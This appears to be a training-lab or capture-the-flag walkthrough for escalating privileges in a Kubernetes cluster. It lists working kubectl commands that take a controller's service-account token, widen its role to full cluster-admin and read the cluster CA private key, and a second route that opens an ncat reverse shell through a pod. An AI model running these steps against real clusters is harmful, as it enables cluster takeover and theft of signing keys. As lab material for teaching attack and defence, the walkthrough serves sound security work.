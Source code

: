 ## SSH to Get Secrets

There are a couple of ways you can approach this one. First up (for either approach) we get secrets
1. `kubectl get po -n kube-system` will fail (user doesn't have those rights)
2. `kubectl get secrets -n kube-system` will work and give you a list of available secrets

Now the question is, which secret to use. The first option might be the clusterrole-aggregation-controller, which needs steps that look like this.

3. This will give you the clusterrole-aggregation-controller token `kubectl -n kube-system get secret clusterrole-aggregation-controller-token-[RAND] -o json`
4. base64 deocde the token field
5. Use the token as part of a kubectl command  `kubectl --as test --as=group=system:masters --token="[TOKEN]" get clusterroles` to confirm it's working
6. Edit the service account for the token you're using (weird but this particular service account token has the "escalate" permission which lets you do this) `kubectl edit clusterrole system:controller:clusterrole-aggregation-controller`

Add the following lines in the "rules" section

```yaml
- apiGroups:
  - '*'
  resources:
  - '*'
  verbs:
  - '*'
```

7. Now you're a `cluster-admin` :)
8. get the API server pod name `kubectl --token="[TOKEN]" -n kube-system get pods`
9. get the key `kubectl --token="[TOKEN]" -n kube-system exec [API_SERVER_POD] cat /etc/kubernetes/pki/ca.key`

Here's another way of doing it, as some service accounts have got `create pods`

3. This will give you the replicaset-controller token `kubectl -n kube-system get secret system:controller:replicaset-controller-[RAND] -o json`
4. base64 deocde the token field
5. Start a new shell and exec into the client machine, then start an ncat listener on the client machine `ncat -l -p 8989`
6. run the pod `ncat-reverse-shell-pod.yml` on the target host, remembering to modify the target IP address to that of the client machine.
7. This should create a shell for you to access which has the pki directory mounted in `/pki`